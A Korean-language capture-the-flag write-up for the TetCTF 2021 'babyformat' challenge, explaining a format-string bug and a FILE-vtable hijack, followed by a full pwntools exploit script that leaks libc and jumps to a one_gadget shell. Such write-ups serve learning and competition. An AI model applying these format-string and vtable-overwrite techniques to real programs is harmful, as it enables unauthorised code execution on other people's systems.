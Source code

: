 ```yaml
---
layout: post
title: TetCTF 2021 babyformat write-up
categories: ctf-write-up
tags: [ctf]
---
```



## babyformat

삽질을 굉장히 많이한 문제이다. 
취약점은 여기서 발생한다.

```c
int __fastcall sub_40091C(FILE *a1, const char *a2)
{
  printf("Your data: %s\n", a2);
  return fprintf(a1, a2);
}
```

하지만 `fprintf`를 이용하기 때문에 output을 볼 수 없다. 

근데 위의 printf 문을 보면 a2를 %s로 출력을 해주는데 저 주소는 bss 영역이라서 leak을 할 수 없다.



```c
int __fastcall sub_4009CB(__int64 a1)
{
  FILE *stream; // [rsp+18h] [rbp-28h]

  printf("Data you wan't to log into /dev/null: ");
  stream = fopen("/dev/null", "w+");
  if ( !stream )
  {
    puts("Error~");
    exit(0);
  }
  readline(a1, 512);
  fsb((__int64)stream, a1);
  return fclose(stream);
}
```

위 코드를 보면 fsb가 발생한 이후 `fclose`를 호출한다. 그리고 이때 stream은 스택 내에 저장되어 있다. 따라서 스택을 가리키는 포인터를 이용하여 stream이 저장되어 있는 스택을 가리키게 하고 이 stream을 가리키는 스택에 접근하여 stream 내의 vtable을 가리키게 하고 stream의 vtable에 접근하여원하는 주소에 접근 하도록 할 수 있다. (트리플 스테이지..?)

롸업쓰면서 다시 생각해보니 더 쉽게 풀 수 있는 방법도 있는거 같은데 일단 푼 대로 써야겠다..



pie가 안걸려있고 input은 bss 영역에 들어가니 `fake vtable`도 원하는대로 만들 수 있다. 이제 어떤 주소로 이동할 지 결정을 해야한다.  나는 **0x4009cb** 주소로 이동했다.



fprintf를 호출하기 이전에, printf로 a2를 출력해주는 루틴이 존재하는데, 0x4009cb부터 실행하면 a2는 bss 영역이 아니게 되어서  leak이 가능한 구조가 된다.



이제 다시 main 함수로 흐름을 변경하면 bss에 입력을 받을 것이고, bss에 fake vtable을 만들고 one_gadget을 실행할 수 있다.

이 과정 이전에 ret를 one_gadget으로 변경하는 코드를 짰으나 모든 one_gadget이 되지 않아서 절망햇엇다,,





요약 (Summary)
1. Using fsb, modify the vtable (rip should be **0x4009cb**)
   - (1) Create a pointer to point to the stack address where the stream is stored.
   - (2) Modify the 1 byte of the stream address to point to vtable.
2.  Using fsb, modify the return address of the stack to **main**
3.  Using fsb, modify the stream address to `fake_vtable`



```python
from pwn import *

e = ELF('./babyformat')
libc = e.libc

while True:
    p = process('./babyformat', env={'LD_PRELOAD':'./libc-2.23.so'})
    #p = remote("192.46.228.70", 31337)

    payload = ''
    payload += '%c' * 24
    payload += '%{}c'.format(0x28 - 24)
    payload += '%hhn'
    payload += '%c' * 1
    payload += '%{}c'.format(0xe8 - 0x29)
    payload += '%hhn'
    payload += '%{}c'.format(0x6020a0 - 0xe8)
    payload += '%24$ln'
    payload += 'A' * (0x78 - len(payload))
    payload += p64(0x4009CB)
    p.sendlineafter(': ', payload)

    payload = ''
    payload += '%c' * 9
    payload += '%{}c'.format(0x48 - 9)
    payload += '%hhn'
    payload += '%{}c'.format(0xcb - 0x48)
    payload += '%19$hhn'
    payload += 'A' * (0x68 - len(payload))

    try:
        p.sendlineafter("Data you wan't to log into /dev/null: ", payload)
    except:
        p.close()
        continue
    
    leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
    libc_base = leak - 0x3c5540
    one_gadget = libc_base + 0xf0364

    payload = ''
    payload += '%c' * 9
    payload += '%{}c'.format(0x100 - 9)
    payload += '%hhn'
    payload += '%c' * 6
    payload += '%{}c'.format(0x400af4 - 0x106)
    payload += '%n'
    p.sendlineafter("Data you wan't to log into /dev/null: ", payload)

    payload = ''
    payload += '%{}c'.format(0x602070)
    payload += '%21$n'
    payload += 'A' * (8 - len(payload) % 8)
    payload += p64(0) * 17
    payload += p64(0x602070)
    payload += p64(0) * 9
    payload += p64(0x602170)
    payload += p64(0) * 6
    payload += p64(one_gadget)
    p.sendlineafter("Data you wan't to log into /dev/null: ", payload)
    break

p.interactive()
```

